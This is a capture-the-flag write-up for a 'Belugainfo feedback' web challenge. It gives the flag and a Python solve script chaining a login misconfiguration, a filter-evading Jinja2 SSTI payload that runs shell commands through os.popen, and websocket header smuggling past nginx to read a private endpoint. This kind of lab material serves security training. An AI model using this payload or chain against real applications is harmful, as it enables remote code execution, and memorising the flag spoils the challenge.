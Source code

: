 # Belugainfo feedback

## Author

abdiery

## Difficulty

Hard

## Description

Belugainfo bekerja sebagai web developer di PT. Mentor Mencari Cinta Sejati.

Oleh karena itu dia ditugaskan membuat website untuk menampung feedback dari konsumen perusahaannya.

## Flag
ARA6{T4huN_l4lu_K4t4nYA_55T1_gini_d00an66??_Y4uDaH_N1H_AkU_K451H_yG_b4rrUU}

## Solve

1. Login misconfiguration
2. SSTI
3. Websocket smuggling with nginx misconfig

```py
import httpx

r = httpx.Client()

username = "\\"
password = "\\"

payload = '''{%set u="%c%c"|format(95,95)%}
{%print(request|attr("application")|attr(u~"globals"~u)|attr(u~"getitem"~u)(u~"builtins"~u)|attr(u~"getitem"~u)(u~"import"~u)('os')|attr('popen')("id")|attr('read')())%}'''

custom_connection = "Upgrade"
custom_upgrade = "websocket"

def login():
    r = httpx.post("http://localhost:7000/login", data={"username": username, "password": password})
    if r.status_code == 301:
        print("Login successful!")

def send_feedback():
    r = httpx.post("http://localhost:7000/send-feedback", data={"feedback": payload})
    id = r.json()["feedback_id"]
    return id
    # print(f"Feedback ID: {id}")

def get_feedback(id):
    r = httpx.get(f"http://localhost:7000/api/private/feedback/{id}.txt", headers={"Connection": custom_connection, "Upgrade": custom_upgrade})
    print(r.text)

if __name__ == "__main__":
    login()
    get_feedback(send_feedback())
```